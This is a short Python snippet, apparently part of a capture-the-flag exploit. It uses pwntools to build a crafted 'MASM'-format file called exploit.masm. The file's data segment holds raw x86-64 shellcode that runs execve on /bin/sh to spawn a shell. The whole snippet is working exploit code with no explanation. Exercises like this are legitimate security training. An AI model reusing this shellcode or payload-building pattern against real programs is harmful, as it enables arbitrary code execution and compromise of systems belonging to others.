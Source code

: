 ```py
asmb.halt()

magic = b"MASM"
code = asmb.code
bssdata = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
archmask = bytes(asmb.archmask)

payload = flat(
    magic,
    make_segment(1, 19, len(code)),
    make_segment(2, 19 + len(code), len(bssdata)),
    make_segment(3, 19 + len(code) + len(bssdata), len(archmask)),
    code, bssdata, archmask
)

open("exploit.masm", "wb").write(payload)
```